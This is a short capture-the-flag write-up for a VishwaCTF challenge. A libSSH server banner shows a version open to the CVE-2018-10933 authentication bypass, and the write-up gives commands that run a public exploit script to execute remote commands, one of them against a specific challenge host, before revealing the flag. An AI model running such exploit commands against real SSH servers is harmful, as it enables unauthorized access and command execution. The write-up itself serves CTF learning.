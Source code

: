 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.8.1, 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10993 or CVE-2018-10933

### Installation

Clone the code:

```bash
https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```py
python libsshauthbypass.py <ip> --port <port> --command <command_line>
```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```py
python libsshauthbypass.py 192.168.1.100 --port 22 --command "whoami"
```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.

## Exploit

```py
python exploit.py 13.234.11.113 --port 32176 --command "cat location.txt"
```

> Flag: VishwaCTF{elrow-club-pune}